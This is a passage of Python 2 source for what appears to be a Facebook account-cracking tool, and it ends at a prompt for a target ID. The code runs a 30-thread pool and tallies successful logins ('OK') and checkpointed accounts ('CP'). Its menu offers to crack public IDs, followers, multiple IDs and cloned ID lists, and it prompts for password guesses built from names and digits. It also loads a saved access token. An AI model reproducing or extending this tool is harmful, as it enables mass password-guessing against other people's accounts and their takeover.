

    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m======================================================='
    print '\x1b[1;37m[=] PROCESS HAS BEEN COMPLETE'
    print '\x1b[1;37m[=] TOTAL OK : \x1b[1;32m' + str(len(oks))
    print '\x1b[1;37m[=] TOTAL CP : \x1b[1;31m' + str(len(cps))
    print '\x1b[1;97m======================================================='
    raw_input('\x1b[1;37mPRESS ENTER TO BACK MENU ')
    menu()


def name():
    global token
    os.system('clear')
    
    try:
        token = open('shankar_token.txt', 'r').read()
    except IOError:
        print ''
        print '\tToken not found'
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print '\t     CRACK WITH CHOICE PASS'
    print '\x1b[1;97m======================================================='
    print '[1] CRACK PUBLIC ID'
    print '[2] CRACK FOLLOWERS'
    print '[3] CRACK MULTIPLE ID'
    print '[4] FILE CLONING'
    print '[0] BACK'
    print '\x1b[1;97m======================================================='
    pro_rishu()


def pro_rishu():
    rishu = raw_input('[?] Choose : ')
    id = []
    oks = []
    cps = []
    if rishu == '1':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        p3 = raw_input('[1] name+digit : ')
        p4 = raw_input('[2] name+digit : ')
        p5 = raw_input('[3] name+digit : ')
        p6 = raw_input('[4] name+digit : ')
        p7 = raw_input('[5] name+digit : ')
        p8 = raw_input('[6] name+digit : ')
        ps9 = raw_input('[7] digit : ')
        ps10 = raw_input('[8] digit : ')
        ps11 = raw_input('[9] digit : ')
        ps12 = raw_input('[10] digit : ')
        ps13 = raw_input('[11] digit : ')
        ps14 = raw_input('[12] digit : ')
        ps15 = raw_input('[13] digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        